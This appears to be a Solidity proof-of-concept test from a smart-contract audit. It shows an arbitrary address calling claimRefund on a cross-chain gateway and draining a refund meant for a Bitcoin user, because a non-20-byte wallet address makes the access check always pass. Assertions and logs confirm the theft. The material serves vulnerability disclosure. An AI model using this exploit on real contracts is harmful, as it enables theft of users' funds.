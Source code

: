 ```solidity
        gatewayCrossChain.onAbort(
            AbortContext({
                sender: abi.encode(address(this)),
                asset: refundToken,
                amount: refundAmount,
                outgoing: false,
                chainID: 8332, // Bitcoin chain ID
                revertMessage: bytes.concat(externalId, bitcoinAddress)
            })
        );
        
        // Verify the refund was created
        (bytes32 storedExternalId, address storedToken, uint256 storedAmount, bytes memory storedWalletAddress) = 
            gatewayCrossChain.refundInfos(externalId);
        
        assertEq(storedExternalId, externalId, "Refund should be created");
        assertEq(storedToken, refundToken, "Token should match");
        assertEq(storedAmount, refundAmount, "Amount should match");
        assertEq(storedWalletAddress, bitcoinAddress, "Bitcoin address should be stored");
        
        // Record initial balances
        uint256 contractInitialBalance = token1Z.balanceOf(address(gatewayCrossChain));
        uint256 attackerInitialBalance = token1Z.balanceOf(attacker);
        
        console.log("=== BEFORE ATTACK ===");
        console.log("Contract balance:", contractInitialBalance);
        console.log("Attacker balance:", attackerInitialBalance);
        console.log("Bitcoin address length:", bitcoinAddress.length, "bytes");
        
        // ### ATTACK ###
        
        // The attacker (any random address) calls claimRefund
        // This should fail but currently succeeds due to the vulnerability
        vm.prank(attacker);
        gatewayCrossChain.claimRefund(externalId);
        
        // ### VERIFICATION ###
        
        uint256 contractFinalBalance = token1Z.balanceOf(address(gatewayCrossChain));
        uint256 attackerFinalBalance = token1Z.balanceOf(attacker);
        
        console.log("=== AFTER ATTACK ===");
        console.log("Contract balance:", contractFinalBalance);
        console.log("Attacker balance:", attackerFinalBalance);
        
        // Verify the attack succeeded
        assertEq(attackerFinalBalance, attackerInitialBalance + refundAmount, "Attacker should have stolen the refund");
        assertEq(contractFinalBalance, contractInitialBalance - refundAmount, "Contract should have lost the refund");
        
        // Verify the refund record was deleted
        (bytes32 deletedExternalId, , , ) = gatewayCrossChain.refundInfos(externalId);
        assertEq(deletedExternalId, bytes32(0), "Refund record should be deleted");
        
        console.log("=== ATTACK ANALYSIS ===");
        console.log("Attack successful: Attacker stole", refundAmount / 1e18, "tokens intended for Bitcoin user");
        console.log("Vulnerability: walletAddress.length =", bitcoinAddress.length, "(not 20 bytes)");
        console.log("This means: require(bots[attacker] || attacker == attacker) = require(false || true) = true");
```